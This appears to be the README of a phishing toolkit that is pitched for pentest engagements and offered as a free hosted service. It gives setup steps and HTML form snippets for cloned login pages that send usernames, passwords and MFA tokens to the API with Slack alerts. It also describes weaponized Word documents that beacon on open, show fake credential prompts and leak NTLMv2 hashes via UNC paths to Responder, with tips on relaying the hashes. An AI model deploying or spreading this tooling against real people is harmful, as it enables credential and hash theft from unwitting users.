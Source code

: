 # Phishing-API
This API has two main features.  One allows you to easily deploy cloned landing pages for credential stealing and the other feature is weaponized Word doc creation.  Both are integrated into Slack for real-time alerting.  <b>I'm currently running this same code for those that don't want to implement their own environment as a free service @ https://phishapi.com!  </b>


## Update

I've added support for MS Word document generation.  Now, simply go to the API to create your payload, email it off, and wait for the Slack notification.  It automatically includes a UNC path back as well (as does the Phishing Portal feature) so if you're running Responder in a background session you can capture NTLMv2 hashes and be notified via Slack!  Support for weaponizing your own Word doc templates is built in.  Just upload an existing doc and download it again to hook it.  You can also choose to use Basic Auth which prompts the user for credentials, just like Phishery does!


# To Setup :

1) Import the DB SQL Dump Schema to a new MySQL Instance

2) Host the PHP from a web service (Apache, Nginx, IIS, etc)

3) Configure dbconfig.php and index.php variables

4) Limit Access to the "Results" Directory (Apache's Basic Auth is Recommended)

5) Use SSL and a Domain for the Hosted API (Configure DNS MASKED Forwarding Instead of an A Name Record for Best Results)



# 1) To Use the API for Capturing Credentials from Fake Sites : 

Rapid & Easy Deployment API for Phishing During Pentest Engagements.  Output to MySQL/Web Table &amp; Slack Bot.  Supports BEEF Hooking & HaveIBeenPwned!


1) Point your HTML Form to https://YOUR-API-HERE

	`<FORM METHOD="POST" ACTION="https://YOUR-API-HERE">`

2)  Make sure the following authentication fields are set

	`<INPUT NAME="username">`
	
	`<INPUT NAME="password">`
	
	`<INPUT NAME="token">` <b>(OPTIONAL MFA FIELD)</b>  
	
3) Add hidden input fields for the name of the project and the URL the users should be redirected to after submitting their credentials to you (Recommend Legitimate Login Location - For Best Results Use a Clickjacking Vulnerable URL That Allows iFRAMEs)

	`<INPUT NAME="project" VALUE="My_Project_Here" TYPE="hidden">`
	
	`<INPUT NAME="redirect" VALUE="https://site_to_redirect_to" TYPE="hidden">`
	
4) Optionally include hidden input fields for altering the Slack bot's behavior (Name and Emoji)

	`<INPUT NAME="slackbotname" VALUE="SuckerBot" TYPE="hidden">`
	
	`<INPUT NAME="slackemoji" VALUE=":see_no_evil:" TYPE="hidden">`
	
5) Sit back and wait for the Slack bot to notify you.  When you want to see the credentials visit https://YOUR-API-HERE/results using your basic auth credentials or click the link in the Slack notification.

<p align="center">
<img src="https://i.imgur.com/L8yYRMQ.png" width="75%"><br />
<b>Figure 1: Someone Entered Credentials into the Fake Portal - Slack Alert</b>
<br/><br/></p>
                  
<p align="center">           
<img src="https://i.imgur.com/2ayiRRW.png"><br />
<b>Figure 2: Clicking the Slack Link Allows Viewing Credentials</b>
<br /><br/>
</p>

# 2) To Use the API for Generating Word Doc Payloads :

1) Modify /phishingdocs/index.php to include your Slack Webhook parameters

2) Create /var/www/uploads Path and make sure your web user has sudoers access

3) Browse out to YOUR_URL.com/phishingdocs to generate your DOCX

4) Optionally set up [Responder](https://github.com/SpiderLabs/Responder "Responder") in a background process and run `phishinghashes.sh` every minute or so with cron

5) Set up your php.ini to allow uploads of at least 15MB and enable browsecap.ini for parsing UserAgent strings, otherwise some functionality may be limited.  

6) Email your doc and wait for the Slack alerts!

<p align="center"><b>Bonus points if you use your docs as honeypot bait! :)</b></p>

<br /><br/>
<p align="center">
<img src="https://i.imgur.com/LW4BUjN.png"><br />
<b>Figure 1: Web Based Payload Generation - Create New Doc or Upload Existing w/ Payload Options</b>
</p>
                  
            
<br /><br/>
<p align="center">
<img src="https://i.imgur.com/Sx1b1Z5.png"><br />
<b>Figure 2: Opening Document Generated (New) by Service</b>
</p>


<br /><br/>
<p align="center">
<img src="https://i.imgur.com/sw8JWQE.png" width="40%"><br />
<b>Figure 3: If "Auth Prompt" if Selected in Payload Options, Display Basic Auth Prompt to User for Credential Capturing</b>
</p>
                  

<br /><br/>
<p align="center">
<img src="https://i.imgur.com/FXdDm6t.png" width="75%"><br />
<b>Figure 4: HTTP Beacon is Selected by Default and Alerts When the Target Opens the Document</b>
</p>


<br /><br/>
<p align="center">
<img src="https://i.imgur.com/ku6UTNI.png" width="75%"><br />
<b>Figure 5: If Credentials are Entered from Figure 3 Above, Notify via Slack When Captured</b>
</p>


<br /><br/>
<p align="center">
<img src="https://i.imgur.com/OO0sjDR.png"><br />
<b>Figure 6: Clicking on the Slack Alert Displays Captured Details (Hashes, Credentials, Client Details)</b>
</p>


<br /><br/>
<p align="center">
<img src="https://i.imgur.com/qZFGmXA.png"><br />
<b>Figure 7: Slack Alert when UNC/SMB Hashes are Received</b>
</p>


<br /><br/>
<p align="center">
	<b>Currently, I'm running <a href="https://github.com/SpiderLabs/Responder">Responder</a> in a Screen session with <i>phishinghashes.sh</i> scheduled via Cron to run every minute to pick up hashes, correlate phished users, and alert via Slack.  You can also relay those hashes with another tool if you'd like to take things even further.  Enjoy! :)</b></p>
